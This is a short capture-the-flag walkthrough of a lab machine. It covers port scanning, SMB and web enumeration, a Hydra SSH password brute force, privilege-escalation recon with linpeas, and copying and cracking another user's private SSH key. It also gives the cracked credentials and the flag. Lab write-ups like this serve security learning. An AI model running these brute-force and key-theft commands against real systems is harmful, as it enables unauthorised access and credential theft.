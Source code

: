 Tools used:
 - Nmap
 - dirbuster
 - Hydra
 - LinPeas.sh

1. Scanning the target machine

`nmap -A -vv -Pn <target-ip>`

Exposed Ports:
 - 22
 - 139 & 445 (SMB)
 - 80
 - 8080

2. Enumerate the services running (dirbuster/gobuster)

`dirbuster -l /path/to/wordlist/file/wordlist.txt http://<target-ip>`

Discovered Paths:
 - /development/
 - /development/dev.txt
 - /development/j.txt

Files in /development info:
 - port 80 is hosted on apache
 - one employee has a weak password, so it might be crackable(ssh possibly)

3. Enumerate SMB with enum4linux
`enum4linux -a <IP_address>` < enumerate everything

Discovered info:
 - kay
 - jan
 - //10.10.168.206/Anonymous (smb share)
 - Samba Server 4.3.11-Ubuntu


5. Bruteforce the ssh connection with Hydra

`hydra -l username-found -P /usr/share/wordlists/rockyou.txt  10.10.168.206 ssh -t 32`
```bash
 -l specifies a user name
 -L specifies a user wordlist
 -p specifies a password
 -P specifies a password list
 -t number of simultaneous threads(default 32)
```

 Discovered Info:
  - usr: jan | password: armando


6. Enumerate the target machine(from the inside)
 - `scp linpeas.sh jan@10.10.168.206:/dev/shm` < send LinEnum to  [ref: https://github.com/peass-ng/PEASS-ng/releases/tag/20240623-7d729c04]
 - chmod +x /dev/shm/linpeas.sh
 - ./linpeas.sh

Discovered info:
- kay has an exposed private rsa key

7. crack kay's priv key passphrase
- `scp jan@10.10.168.206:/home/kay/.ssh/id_rsa .`
- `ssh2john id_rsa > id_rsa.hash`
- `john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt`

Discovered Info:
 - key passphrase: beeswax



8. Got the flag inside kay's session
 - heresareallystrongpasswordthatfollowsthepasswordpolicy$$
